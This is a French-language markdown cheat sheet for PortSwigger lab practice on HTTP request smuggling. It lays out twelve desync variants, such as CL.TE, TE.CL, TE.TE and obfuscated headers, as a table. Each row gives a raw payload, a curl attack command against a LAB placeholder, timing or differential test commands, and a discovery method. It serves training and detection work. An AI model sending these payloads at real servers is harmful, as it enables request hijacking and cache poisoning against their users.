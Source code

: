 # Smuggling

Voici un tableau synthétique pour l’**analyse préalable d’une vulnérabilité HTTP request smuggling** sur les labs PortSwigger, intégrant :

- Type/lab
- Exemple de payload d’attaque
- Commande d’attaque (curl)
- Commande(s) d’analyse curl (timing, différentiel, ambiguïté…)
- Élément d’analyse (raison préalable technique)
- **Méthodologie de découverte du type de faille exploitée** (comment identifier la désynchronisation ou la faille, outils, logique)
- URL PortSwigger

---

| # | Type / Lab | Payload d’attaque | Commande d’attaque (curl) | Commande(s) d’analyse curl | Élément d’analyse (raison préalable) | Méthodologie de découverte du type de faille exploitée | URL |
|---|------------|-------------------|---------------------------|----------------------------|--------------------------------------|--------------------------------------------------------|-----|
| 1 | CL.TE (timing) | `POST / HTTP/1.1\nHost: LAB\nContent-Length: 4\nTransfer-Encoding: chunked\n\n1\nA\n0` | `curl -v https://LAB/ -H "Host: LAB" -H "Content-Length: 4" -H "Transfer-Encoding: chunked" --data-binary $'1\r\nA\r\n0'` | `curl -v https://LAB/ -H "Host: LAB" -H "Content-Length: 4" -H "Transfer-Encoding: chunked" --data-binary $'1\r\nA\r\n0'` | Si la connexion reste ouverte ou timeout, parsing désynchronisé (le backend attend la suite du body) | Envoi d’une requête incomplète : si la connexion reste ouverte, le backend attend plus de données ; cela indique une désynchronisation CL.TE (front-end lit Content-Length, back-end Transfer-Encoding)[1][5]. | https://portswigger.net/web-security/request-smuggling/finding |
| 2 | TE.CL (timing) | `POST / HTTP/1.1\nHost: LAB\nTransfer-Encoding: chunked\nContent-Length: 6\n\n0\n\nX` | `curl -v https://LAB/ -H "Host: LAB" -H "Transfer-Encoding: chunked" -H "Content-Length: 6" --data-binary $'0\r\n\r\nX'` | `curl -v https://LAB/ -H "Host: LAB" -H "Transfer-Encoding: chunked" -H "Content-Length: 6" --data-binary $'0\r\n\r\nX'` | Si la connexion reste ouverte ou timeout, parsing désynchronisé | Envoi d’une requête incomplète : si la connexion reste ouverte, le backend attend plus de données ; cela indique une désynchronisation TE.CL (front-end lit Transfer-Encoding, back-end Content-Length)[1][5]. | https://portswigger.net/web-security/request-smuggling/finding |
| 3 | CL.TE (différentiel) | `POST / HTTP/1.1\nHost: LAB\nContent-Length: 49\nTransfer-Encoding: chunked\n\ne\nq=smuggling&x=\n0\nGET /404 HTTP/1.1\nFoo: x` | `curl -v https://LAB/ -H "Host: LAB" -H "Content-Length: 49" -H "Transfer-Encoding: chunked" --data-binary $'e\r\nq=smuggling&x=\r\n0\r\nGET /404 HTTP/1.1\r\nFoo: x\r\n\r\n'` | `curl -v https://LAB/ -H "Host: LAB" -d "q=smuggling"` | Si la 2e requête reçoit une réponse 404 ou inattendue, la smuggled request a été traitée | Envoi d’une attaque suivie d’une requête normale. Si la réponse à la 2e diffère (statut, headers…), le backend a traité la requête injectée : différentiel de parsing, typique CL.TE[1][5]. | https://portswigger.net/web-security/request-smuggling/finding |
| 4 | TE.CL (différentiel) | `POST / HTTP/1.1\nHost: LAB\nTransfer-Encoding: chunked\nContent-Length: 6\n\n0\n\nX` | `curl -v https://LAB/ -H "Host: LAB" -H "Transfer-Encoding: chunked" -H "Content-Length: 6" --data-binary $'0\r\n\r\nX'` | `curl -v https://LAB/ -H "Host: LAB" -d "q=smuggling"` | Si la 2e requête reçoit une réponse inattendue ou cassée, vulnérabilité confirmée | Même logique : injection suivie d’une requête normale : si la réponse change, désynchronisation TE.CL détectée[1][5]. | https://portswigger.net/web-security/request-smuggling/finding |
| 5 | CL.TE (interférence client) | `POST / HTTP/1.1\nHost: LAB\nContent-Length: 30\nTransfer-Encoding: chunked\n\n0\nGET /404 HTTP/1.1\nFoo: x` | `curl -v https://LAB/ -H "Host: LAB" -H "Content-Length: 30" -H "Transfer-Encoding: chunked" --data-binary $'0\r\nGET /404 HTTP/1.1\r\nFoo: x\r\n\r\n'` | `curl -v https://LAB/` | Si la réponse de la 2e requête est cassée (404, headers inattendus), vulnérabilité confirmée | Injection d’une requête malformée puis d’une requête normale : si la réponse de la 2e est anormale, il y a interférence (désynchronisation)[1][2]. | https://hacktricks.boitatech.com.br/pentesting-web/http-request-smuggling |
| 6 | TE.CL (interférence client) | `POST / HTTP/1.1\nHost: LAB\nTransfer-Encoding: chunked\nContent-Length: 6\n\n0\n\nX` | `curl -v https://LAB/ -H "Host: LAB" -H "Transfer-Encoding: chunked" -H "Content-Length: 6" --data-binary $'0\r\n\r\nX'` | `curl -v https://LAB/` | Si la réponse de la 2e requête est cassée, vulnérabilité confirmée | Injection d’une requête malformée puis d’une requête normale : si la réponse de la 2e est anormale, il y a interférence (désynchronisation)[1][2]. | https://hacktricks.boitatech.com.br/pentesting-web/http-request-smuggling |
| 7 | TE.TE (obfuscation) | `POST / HTTP/1.1\nHost: LAB\nTransfer-Encoding : chunked\nContent-Length: 6\n\n0\n\nG` | `curl -v https://LAB/ -H "Host: LAB" -H "Transfer-Encoding : chunked" -H "Content-Length: 6" --data-binary $'0\r\n\r\nG'` | `curl -v https://LAB/ -H "Host: LAB" -H "Transfer-Encoding: chunked" -H "Content-Length: 6" --data-binary $'0\r\n\r\nG'` | Si la réponse change selon la syntaxe du header, parsing différentiel | Fuzzing des variantes d’en-têtes (espaces, doubles TE, etc.) et comparaison des réponses pour détecter un parsing ambigu (TE.TE)[1][5]. | https://hacktricks.boitatech.com.br/pentesting-web/http-request-smuggling |
| 8 | CL.CL (ambiguïté) | `POST / HTTP/1.1\nHost: LAB\nContent-Length: 13\nContent-Length: 6\n\nG` | `curl -v https://LAB/ -H "Host: LAB" -H "Content-Length: 13" -H "Content-Length: 6" --data-binary $'G'` | `curl -v https://LAB/ -H "Host: LAB" -H "Content-Length: 13" --data-binary $'G'`<br>`curl -v https://LAB/ -H "Host: LAB" -H "Content-Length: 6" --data-binary $'G'` | Si la réponse change selon la valeur, ambiguïté de parsing | Tester chaque valeur de Content-Length séparément et comparer les réponses pour détecter l’ambiguïté CL.CL[1][5]. | https://portswigger.net/web-security/request-smuggling/lab-cl-cl |
| 9 | TE.TE (ambiguïté) | `POST / HTTP/1.1\nHost: LAB\nTransfer-Encoding: chunked\nTransfer-Encoding: identity\n\n0\n\nG` | `curl -v https://LAB/ -H "Host: LAB" -H "Transfer-Encoding: chunked" -H "Transfer-Encoding: identity" --data-binary $'0\r\n\r\nG'` | `curl -v https://LAB/ -H "Host: LAB" -H "Transfer-Encoding: chunked" --data-binary $'0\r\n\r\nG'` | Si la réponse change, parsing ambigu | Tester avec un ou deux headers Transfer-Encoding et comparer les réponses pour identifier l’ambiguïté TE.TE[1][5]. | https://portswigger.net/web-security/request-smuggling/lab-te-te |
| 10 | Header whitespace | `POST / HTTP/1.1\nHost: LAB\nTransfer-Encoding : chunked\nContent-Length: 6\n\n0\n\nG` | `curl -v https://LAB/ -H "Host: LAB" -H "Transfer-Encoding : chunked" -H "Content-Length: 6" --data-binary $'0\r\n\r\nG'` | `curl -v https://LAB/ -H "Host: LAB" -H "Transfer-Encoding: chunked" -H "Content-Length: 6" --data-binary $'0\r\n\r\nG'` | Si la réponse change, parsing différentiel | Tester différentes syntaxes d’en-têtes (espaces, tabulations) et observer les différences de parsing[1][5]. | https://portswigger.net/web-security/request-smuggling/lab-obfuscated-te-header |
| 11 | Header whitespace after colon | `POST / HTTP/1.1\nHost: LAB\nTransfer-Encoding:  chunked\nContent-Length: 6\n\n0\n\nG` | `curl -v https://LAB/ -H "Host: LAB" -H "Transfer-Encoding:  chunked" -H "Content-Length: 6" --data-binary $'0\r\n\r\nG'` | `curl -v https://LAB/ -H "Host: LAB" -H "Transfer-Encoding: chunked" -H "Content-Length: 6" --data-binary $'0\r\n\r\nG'` | Si la réponse change, parsing différentiel | Tester la présence/absence d’espace après le deux-points et comparer les réponses pour détecter un parsing ambigu[1][5]. | https://portswigger.net/web-security/request-smuggling/lab-whitespace-after-colon |
| 12 | Chunked encoding, chunk size invalide | `POST / HTTP/1.1\nHost: LAB\nTransfer-Encoding: chunked\n\nz\nhello\n0\n\nG` | `curl -v https://LAB/ -H "Host: LAB" -H "Transfer-Encoding: chunked" --data-binary $'z\r\nhello\r\n0\r\n\r\nG'` | `curl -v https://LAB/ -H "Host: LAB" -H "Transfer-Encoding: chunked" --data-binary $'5\r\nhello\r\n0\r\n\r\nG'` | Si la réponse change, certains serveurs tolèrent chunk size non standard | Tester chunk size valide puis invalide et comparer les réponses pour détecter une tolérance anormale[1][5]. | https://portswigger.net/web-security/request-smuggling/lab-chunked-invalid-size |

---


